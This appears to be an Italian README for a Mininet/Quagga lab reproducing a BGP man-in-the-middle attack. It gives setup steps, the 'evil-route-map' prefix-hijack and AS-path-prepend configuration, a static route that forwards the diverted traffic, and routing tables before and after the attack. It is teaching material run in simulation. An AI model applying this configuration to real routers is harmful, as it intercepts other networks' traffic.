

# bgp-man-in-the-middle

Descrizione dell'attacco disponibile qui: https://www.defcon.org/images/defcon-16/dc16-presentations/defcon-16-pilosov-kapela.pdf

---

## Preparazione Mininet

- `git clone https://github.com/mininet/mininet`

- `cd mininet`

- `git checkout 2.3.0d4`

- `util/install.sh -a`

- `mn --test pingall`

- `mn --version`

## Preparazione Quagga

- esegui il download quagga-1.2.4 da [qui](http://download.savannah.gnu.org/releases/quagga/) nella tua `$HOME` ed estrai il file compresso

- `cd ~/quagga-1.2.4`

- `chown mininet:mininet /var/run/quagga`

- modifica il file `configure`, aggiungendo `${quagga_statedir_prefix}/var/run/quagga` prima di tutte le opzioni nel loop `for` per `QUAGGA_STATE_DIR`

- `./configure --enable-user=mininet --enable-group=mininet`

- `make`

---

## Spiegazione dell'attacco



\# TODO

## Esecuzione dell'attacco

Per provare la simulazione, seguiamo i seguenti passi.

**. Avviamo l'ambiente di simulazione.**

Avviamo le istanze dei router, degli AS e degli host eseguendo il comando.

`$ python bgp.py`

**. Accediamo al daemon bgp.**

In un altro terminale avviamo una sessione con il daemon bgp dell'AS100. La password per accedere come utente è `en`. 

`$ ./connect-bgp.sh`

Per accedere alla shell di amministratore lanciamo il comando `en`; la password di accesso è `en`.

```
bgpd-R100> en
Password: 
bgpd-R100# 
```

**. Controlliamo la routing table.**

Verifichiamo le entry di routing nell'AS100. Lanciamo il comando:

`bgpd-R100# show ip bgp`

Output:

	BGP table version is 0, local router ID is 100.100.100.100
	Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
	              i internal, r RIB-failure, S Stale, R Removed
	Origin codes: i - IGP, e - EGP, ? - incomplete
	
	   Network          Next Hop            Metric LocPrf Weight Path
	*> 10.10.0.0/22     10.10.110.1              0             0 10 i
	*  10.20.0.0/22     10.10.140.1                            0 40 30 200 20 i
	*>                  10.10.110.1                            0 10 20 i
	*  10.30.0.0/22     10.10.110.1                            0 10 20 200 30 i
	*>                  10.10.140.1                            0 40 30 i
	*> 10.40.0.0/22     10.10.140.1              0             0 40 i
	*> 10.100.0.0/22    0.0.0.0                  0         32768 i
	*  10.200.0.0/22    10.10.110.1                            0 10 20 200 i
	*>                  10.10.140.1                            0 40 30 200 i
	
	Displayed  6 out of 9 total prefixes

Dall'output riusciamo a capire se l'AS100 per raggiungere la rete 10.200.0.0/22 sceglie il path "10 20 200" (caso 1) oppure il path "40 30 200" (caso 2). Qui ricadiamo nel caso 1.

**. Accediamo al daemon zebra.**

In un altro terminale avviamo una sessione con il daemon zebra del R100. La password per accedere come utente è `en`. 

`$ ./connect-zebra.sh`

Per accedere alla shell di amministratore lanciamo il comando `en`; la password di accesso è `en`.

```
R100> en
Password: 
R100# 
```

**. Controlliamo le rotte.**

Verifichiamo le rotte selte da R100. Lanciamo il comando:

`R100# show ip route`

Output:

	Codes: K - kernel route, C - connected, S - static, R - RIP,
	       O - OSPF, I - IS-IS, B - BGP, P - PIM, A - Babel, N - NHRP,
	       > - selected route, * - FIB route
	
	B>* 10.10.0.0/22 [20/0] via 10.10.110.1, R100-eth2, 00:00:28
	C>* 10.10.110.0/30 is directly connected, R100-eth2
	C>* 10.10.140.0/30 is directly connected, R100-eth3
	B>* 10.20.0.0/22 [20/0] via 10.10.110.1, R100-eth2, 00:00:25
	B>* 10.30.0.0/22 [20/0] via 10.10.140.1, R100-eth3, 00:00:25
	B>* 10.40.0.0/22 [20/0] via 10.10.140.1, R100-eth3, 00:00:28
	C>* 10.100.0.0/24 is directly connected, R100-eth1
	B>* 10.200.0.0/22 [20/0] via 10.10.110.1, R100-eth2, 00:00:22
	C>* 127.0.0.0/8 is directly connected, lo
	C>* 127.0.0.1/32 is directly connected, lo

Vediamo che per raggiungere la rete 10.200.0.0/22 R100 usa una rotta appresa tramite BGP passando attraverso l'AS10 (il router dirimpettaio R10 ha indirizzo IP 10.10.110.1).

**. Lanciamo l'attacco.**

Definiamo la route-map. Nella shell bgp di R100 lanciamo i seguenti comandi (caso 1)

	configure terminal
	
	router bgp 100
	   network 10.200.0.0/24
	   neighbor 10.10.110.1 route-map evil-route-map out
	   exit
	ip prefix-list evil-prefix-list permit 10.200.0.0/24
	route-map evil-route-map permit 10
	   match ip address prefix-list evil-prefix-list
	   set as-path prepend 10 20 200

oppure (caso 2)

	configure terminal
	router bgp 100
	   network 10.200.0.0/24
	   neighbor 10.10.140.1 route-map evil-route-map out
	   exit
	ip prefix-list evil-prefix-list permit 10.200.0.0/24
	route-map evil-route-map permit 10
	   match ip address prefix-list evil-prefix-list
	   set as-path prepend 40 30 200

Impostiamo la rotta statica. Nella shell zebra di R100 lanciamo i seguenti comandi (caso 1)

	configure terminal
	ip route 10.200.0.0/24 10.10.110.1

oppure (caso 2)

	configure terminal
	ip route 10.200.0.0/24 10.10.140.1

**. Controlliamo le scelte di routing degli AS**

Accediamo al daemon bgp di R40 (`./connect-bgp.sh R40`) e la sua routing table (`show ip bgp`) risulta:

	BGP table version is 0, local router ID is 40.40.40.40
	Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
	              i internal, r RIB-failure, S Stale, R Removed
	Origin codes: i - IGP, e - EGP, ? - incomplete
	
	   Network          Next Hop            Metric LocPrf Weight Path
	*> 10.10.0.0/22     10.10.140.2                            0 100 10 i
	*  10.20.0.0/22     10.10.140.2                            0 100 10 20 i
	*>                  10.10.70.1                             0 30 200 20 i
	*> 10.30.0.0/22     10.10.70.1               0             0 30 i
	*> 10.40.0.0/22     0.0.0.0                  0         32768 i
	*> 10.100.0.0/22    10.10.140.2              0             0 100 i
	*  10.200.0.0/22    10.10.140.2                            0 100 10 20 200 i
	*>                  10.10.70.1                             0 30 200 i
	*> 10.200.0.0/24    10.10.140.2              0             0 100 i
	
	Displayed  7 out of 9 total prefixes
	
Vediamo che R40 inoltrerà il traffico verso la rete 10.200.0.0/24 attraverso l'AS100 invece che attraverso l'AS30.

Analogamente per il daemon bgp di R30 risulta

	BGP table version is 0, local router ID is 30.30.30.30
	Status codes: s suppressed, d damped, h history, * valid, > best, = multipath,
	              i internal, r RIB-failure, S Stale, R Removed
	Origin codes: i - IGP, e - EGP, ? - incomplete
	
	   Network          Next Hop            Metric LocPrf Weight Path
	*  10.10.0.0/22     10.10.70.2                             0 40 100 10 i
	*>                  10.10.230.2                            0 200 20 10 i
	*  10.20.0.0/22     10.10.70.2                             0 40 100 10 20 i
	*>                  10.10.230.2                            0 200 20 i
	*> 10.30.0.0/22     0.0.0.0                  0         32768 i
	*> 10.40.0.0/22     10.10.70.2               0             0 40 i
	*  10.100.0.0/22    10.10.230.2                            0 200 20 10 100 i
	*>                  10.10.70.2                             0 40 100 i
	*> 10.200.0.0/22    10.10.230.2              0             0 200 i
	*> 10.200.0.0/24    10.10.70.2                             0 40 100 i
	
	Displayed  7 out of 10 total prefixes

Vediamo che R30 inoltrerà il traffico verso la rete 10.200.0.0/24 attraverso l'AS40 invece che direttamente all'AS200.

**. Fermiamo l'ambiente di simulazione.**

Fermiamo il terminali connessi a R100.

`bgpd-R100# exit`

`R100# exit`

Fermiamo le istanze digitando exit nel terminale di mininet.

`mininet> exit`
